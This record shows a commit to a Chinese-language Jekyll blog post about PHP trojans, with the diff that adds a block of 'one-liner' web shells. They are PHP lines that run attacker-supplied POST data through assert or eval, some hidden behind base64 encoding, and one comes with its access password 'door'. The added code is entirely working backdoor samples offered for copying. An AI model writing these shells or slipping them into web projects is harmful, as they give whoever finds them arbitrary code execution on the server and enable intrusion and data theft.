

Before and after one commit to tank96a/article, a Jekyll site: the page built from _posts/2015-04-27-php-horse.md, in a window 1280 px wide and 900 px high, scrolled down 823 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; library files that are not in the unit come from our copies; comment, search, counter and statistics services are not loaded; before the commit the page ends 1581 px from its top, so only the background shows below that.

Commit message:
Update 2015-04-27-php-horse.md

```diff
--- a/_posts/2015-04-27-php-horse.md
+++ b/_posts/2015-04-27-php-horse.md
@@ -66,6 +66,17 @@ if ($cmd=='code')
 ?>
 {% endhighlight %}
 
+{% raw %}
+<pre>
+其他一句话：
+<?php $x=base64_decode("YXNzZXJ0");$x($_POST['c']);?>
+<?php call_user_func(create_function(null,'assert($_POST[c]);'));?>
+
+//口令是： door
+<?php eval(base64_decode(ZXZhbChiYXNlNjRfZGVjb2RlKFpYWmhiQ2hpWVhObE5qUmZaR1ZqYjJSbEtFeDVPRGhRTTBKdlkwRndiR1J0Um5OTFExSm1WVVU1VkZaR2RHdGlNamw1V0ZOclMweDVPQzVqYUhJb05EY3BMbEJuS1NrNykpOw));?>
+</pre>
+{% endraw %}
+
 php函数参考网站：
 [create_function](http://php.net/manual/en/function.create-function.php)
 [pack](http://php.net/manual/en/function.pack.php)
```
